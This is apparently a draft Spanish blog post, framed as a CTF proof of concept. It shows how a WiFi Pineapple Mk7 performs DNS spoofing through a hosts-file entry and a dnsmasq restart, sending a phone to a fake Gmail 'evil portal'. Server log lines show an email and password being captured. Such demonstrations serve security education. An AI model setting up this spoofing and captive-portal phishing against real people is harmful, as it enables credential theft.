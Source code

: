 ```yaml
---
title: 'DNS Spoofing - POC'
date: '2023-01-03'
tags: ["DNS Spoofing", "POC"]
draft: true
authors: ['default']
summary: 'Reto CTF que consiste en explicar cómo funciona el WiFi Pineapple Mk7 y su capacidad para realizar ataques de DNS spoofing. Se explora la modificación del archivo /etc/hosts y el cache DNS en un teléfono móvil.'
images: ["/static/images/uploads/wifi-pineapple-mkvii/life-of-a-dns-query.webp", "/static/images/uploads/wifi-pineapple-mkvii/iphone14_spoof.webp"]
---
```


Hace poco me compré el WiFi Pineapple Mk7 de Hack5. Y voy a explicar como funciona los dns utilizando ilustraciones de *[Julia Evans (@b0rk)](https://wizardzines.com/)*

![](/static/images/uploads/wifi-pineapple-mkvii/life-of-a-dns-query.webp)

Update /etc/hosts

⚠️ey!
```
# File: /etc/hosts
# 
#  
192.168.0.10 doogle.es
```
Clear DNS cache


```
# killall dnsmasq && /etc/init.d/dnsmasq start
```
Vamos al movil

![DNS Spoofing gmail.google.es](/static/images/uploads/wifi-pineapple-mkvii/iphone14\_spoof.webp)

y ahora de nuevo


```
evil-portals  | 172.18.0.1 - - [04/Jan/2023:19:40:05 +0000] "GET /assets/css/custom.css HTTP/1.1" 200 1263 "http://gmail.google.es/" "Mozilla/5.0 (iPhone; CPU iPhone OS 16_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.2 Mobile/15E148 Safari/604.1"

evil-portals  | 172.18.0.1 - - [04/Jan/2023:19:40:53 +0000] "GET /controller.php?email=Iker%40prueba.es&password=TeNmUcHoCuIdAdO&hostname=&mac=&ip=172.18.0.1&target=http%3A%2F%2Fgmail.google.es%2F HTTP/1.1" 302 266 "http://gmail.google.es/" "Mozilla/5.0 (iPhone; CPU iPhone OS 16_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.2 Mobile/15E148 Safari/604.1"
```
